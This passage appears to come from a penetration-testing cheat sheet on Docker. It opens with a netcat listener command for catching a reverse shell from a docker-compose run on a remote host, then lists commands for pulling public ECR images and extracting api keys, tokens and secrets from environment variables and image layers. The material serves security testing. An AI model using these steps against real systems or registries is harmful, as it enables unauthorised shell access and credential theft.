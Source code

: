 Then start listener in your local machine.

```sh
nc -lvnp 4444
```

Now run the docker compose in remote machine. You should gain a shell.

```sh
docker-compose run
```

<br />

## Amazon Elastic Container Registry (ECR) Public Gallery

### 1. Run the Docker Container

- **Retrieve a Container Image**

    ```sh
    docker pull public.ecr.aws/<registry-alias>/<repository>:latest
    ```

- **Check if It was Pulled**

    ```sh
    docker images
    ```

- **Run the Container and Interect with It**

    ```sh
    docker run -it public.ecr.aws/<registry-alias>/<repository>:latest
    ```

### 2. Get Sensitive Information in the Container

You may be able to get the interesting data like **api_key**.

```sh
printenv
```

### 3. Get Sensitive Information in Local Machine

- **Check the Container Config and Retrieve Sensitive Information**

    Process the following flows in your local machine.

    ```sh
    mkdir example
    cd example/
    docker save -o example.tar public.ecr.aws/<registry-alias>/<repository>:latest
    tar -xf example.tar

    # Config files
    cat manifest.json | jq
    cat f9ab.......json | jq

    # Also config file in each directory
    cd 2246f........../
    tar -xvf layer.tar

    # Get sensitive information
    grep -e 'token' -e 'secret' */*
    ```